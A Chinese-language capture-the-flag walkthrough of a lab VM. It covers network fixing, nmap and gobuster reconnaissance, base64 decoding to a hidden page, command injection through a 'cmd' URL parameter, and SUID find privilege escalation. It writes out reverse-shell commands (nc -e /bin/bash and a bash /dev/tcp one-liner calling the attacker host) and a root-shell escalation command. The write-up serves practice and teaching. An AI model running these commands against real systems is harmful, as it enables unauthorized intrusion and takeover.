[TOC]

这个靶机依旧要处理网卡问题，那就按顺序来

## 1.网卡配置

开机页面长按shift，再按e



进入页面后把ro改为rw single init=/bin/bash



然后按ctrl+x，进入页面，并输入ip addr，发现使用的是ens33网卡



vi /etc/network/interfaces 编辑配置文件



发现不同，都改为ens33文件，然后:wq!

接着重启网卡服务

使用命令：/etc/init.d/networking restart



这时再输入ip addr，发现有ip地址了

单用户模式弄完后一定要重启靶机，不然扫不出端口

# 2.信息收集

```
nmap -sn 192.168.174.0/24(或netstat -tulnp)
```

得到靶机ip，192.168.174.153

```
nmap --min-rate 10000 -p- 192.168.174.153
```

得到22，80两个端口

```
nmap -sT -sC -sV -O -p22,80 192.168.174.153 -oA /nmapscan/tcp
```

```
nmap -sU --top-ports=100 --min-rate 10000 -oA /nmapscan/udp
```

```
nmap --script=vuln -p22,80 192.168.174.153 -oA /nmapscan/vuln
```

都没有发现什么重要信息

## 3.1实际过程

先研究80端口



网页没什么特别的，但在源代码的最下面发现了一行注释



（在我实际打靶过程中我也想到了这是一个base64编码，但是没想到要连解3次，我先复述我的思路）在尝试一次解码后没有结果，先爆破一下目录

```
gobuster dir -u "http://192.168.174.153" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,zip
```

有两个文件，分别是robots.txt和logs.php

robots.txt：





意思是再试试，没有用

logs.php：



也没有什么有用信息

## 正确过程

对-WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK进行解码，解到底



得到一个文件名workinginprogress.php

进入后



有两个关键信息



联想到可能存在命令注入漏洞，没有输入框就直接在url上尝试



发现使用cmd参数可以利用

使用反弹shell在攻击机器上执行

```
http://192.168.174.153/workinginprogress.php?cmd=nc%20-e%20/bin/bash%20192.168.174.128%204444
```

（不知道为什么使用

```
bash -i >& /dev/tcp/192.168.174.128/4444 0>&1
```

却不能使用）



登录成功，通过执行

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

得到功能完整的伪终端

```
find / -perm -u=s -type f 2>/dev/null
```

查找有suid权限的命令



在GFTOBins找关于find命令



```
find . -exec /bin/sh -p \; -quit
```



提权成功
